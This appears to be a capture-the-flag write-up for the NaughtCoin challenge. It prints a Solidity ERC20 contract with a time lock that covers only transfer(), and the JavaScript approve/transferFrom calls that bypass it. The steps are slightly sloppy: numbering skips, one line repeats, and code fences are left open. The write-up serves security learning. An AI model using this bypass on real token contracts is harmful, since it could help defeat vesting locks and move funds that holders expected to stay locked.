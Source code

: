 # Understanding Blockchain Security: Inheriting Contracts and Ensuring Complete Security

In the realm of blockchain security, it's crucial to grasp how inheriting contracts impacts security measures. Let's delve into a scenario where we inherit contracts and explore additional measures to ensure complete security.

### The Challenge: Bypassing Time Lock Criteria in Token Transfer

Consider a scenario where a contract, named `NaughtCoin`, inherits from the ERC20 token standard. The primary feature of interest here is a time lock mechanism that prevents depositors from withdrawing their tokens before a specified time period elapses. The challenge is to bypass this time lock criteria and transfer tokens without adhering to the predetermined waiting period.

    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    
    import 'openzeppelin-contracts-08/token/ERC20/ERC20.sol';
    
    contract NaughtCoin is ERC20 {
      
      uint public timeLock = block.timestamp + 10 * 365 days;
      uint256 public INITIAL_SUPPLY;
      address public player;
    
      constructor(address _player) ERC20('NaughtCoin', '0x0') {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
      }
      
      function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
        super.transfer(_to, _value);
      }
    
      // Prevent the initial owner from transferring tokens until the timelock has passed
      modifier lockTokens() {
        if (msg.sender == player) {
          require(block.timestamp > timeLock);
          _;
        } else {
         _;
        }
      } 
    }
    
### Exploiting ERC20 Token Standard for Transfer
The ERC20 token standard allows for token transfers on behalf of others after receiving approval. Leveraging this feature, we can execute a workaround to bypass the time lock criteria. By approving ourselves to transfer tokens and utilizing the transferFrom function, we can execute token transfers without restriction.

Here's how to execute the exploit:

1. Approve yourself to transfer tokens:

    ```javascript
    await contract.approve(player, "1000000000000000000000000");

3. Execute the transfer using transferFrom:

    ```javascript
    contract.transferFrom(player, player, "1000000000000000000000000");
    
Upon successful execution, the balance of the player will reflect the transferred amount, effectively bypassing the time lock criteria.

    ```javascript
    contract.transferFrom(player, player, "1000000000000000000000000");
    
### Conclusion
Understanding the intricacies of inheriting contracts and exploiting token standards like ERC20 is paramount in ensuring blockchain security. By recognizing vulnerabilities and implementing appropriate measures, developers can fortify their contracts against potential exploits, safeguarding user assets and maintaining trust within the ecosystem.
